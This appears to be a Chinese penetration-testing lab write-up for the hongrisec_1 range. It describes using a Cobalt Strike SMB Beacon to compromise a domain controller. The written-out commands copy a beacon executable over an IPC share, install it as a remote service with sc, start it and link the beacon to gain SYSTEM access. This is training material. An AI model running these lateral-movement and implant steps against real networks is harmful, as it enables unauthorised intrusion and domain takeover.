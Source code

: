 +++
title = 'Part10.使用CS自带的SMB Beacon上线内网域控主机（内网穿透）'
date = 2024-10-10T11:35:24+08:00
draft = false

categories = ['渗透测试']

tags = ['hongrisec_1靶场']

weight = 101

+++

# Part10.使用CS自带的SMB Beacon上线内网域控主机（内网穿透）

### 在web服务器和域控之间建立流量隧道
为什么建立了ipc通道还要建立流量隧道

因为ipc只能传文件，不能传流量

SMB Beacon简介:
SMB Beacon使用命名管道通过父级Beacon进行通讯

当两个Beacons连接后，子Beacon从父Beacon获取到任务并发送

### 使用CS工具中的SMB Beacon

使用SMB
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171730181.png)
新建一个监听器，用作smb隧道 
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171732263.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171733740.png)
**明确总体思路**：

1. 在cs上生成smb木马
2. 通过AntSword上传文件到web服务器
3. web服务器通过ipc管道将木马文件上传到域控主机
4. 域控主机执行文件，与web服务器建立smb隧道
5. 流量再通过web服务器回到cs

上传smb木马到web服务器

![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171738800.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171739300.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171739414.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171740018.png)

通过ipc管道上传文件到域控主机

```shell
shell copy smb_beacon.exe \\192.168.52.138\C$
```
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171742533.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171749786.png)

通过ipc管道在域控主机下创建一个服务，执行木马

![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171833393.png)

```shell
shell sc \\owa.god.org create test binpath= "cmd.exe /c c:\smb_beacon.exe" 
```
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171756074.png)

开启服务
```shell
shell sc \\owa.god.org start test
```

![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171842014.png)
域控启动smb服务，web服务器也要发送连接命令，才能建立smb隧道
```shell
link owa.god.org
```
哪怕报1053错误，也可以link到，接下来成功上线

![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409181118339.png)
**上线成功，拿到owa，system权限**